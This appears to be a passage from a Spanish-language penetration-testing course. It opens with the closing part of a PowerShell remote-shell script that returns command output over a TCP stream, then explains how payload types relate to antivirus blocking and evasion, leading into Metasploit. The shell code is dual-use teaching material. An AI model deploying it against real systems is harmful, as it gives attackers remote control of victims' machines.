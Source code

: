 ```powershell
                Write-Error $_
            }
            $sendback2  = $sendback + 'PS ' + (Get-Location).Path + '> '
            $x = ($error[0] | Out-String)
            $error.clear()
            $sendback2 = $sendback2 + $x

            #Return the results
            $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2)
            $stream.Write($sendbyte,0,$sendbyte.Length)
            $stream.Flush()
        }
        $client.Close()
        if ($listener)
        {
            $listener.Stop()
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port."
        Write-Error $_
    }
}

```

---

# **Las cargas útiles toman diferentes formas y formularios**

Comprender qué están haciendo diferentes tipos de cargas útiles puede ayudarnos a comprender por qué AV nos está bloqueando la ejecución y nos da una idea de lo que podríamos necesitar cambiar en nuestro código para evitar las restricciones. Esto es algo que exploraremos más en este módulo. Por ahora, comprenda que las cargas útiles que usamos para obtener un shell en un sistema estarán determinados en gran medida por qué lenguajes de intérpretes de SO, Shell e incluso los lenguajes de programación están presentes en el objetivo.

No todas las cargas útiles son frases e implementadas manualmente como las que estudiamos en esta sección. Algunos se generan utilizando marcos de ataque automatizados e implementados como un ataque preenvasado/automatizado para obtener un shell. Como en el muy poderoso`Metasploit-framework`, con el que trabajaremos en la siguiente sección.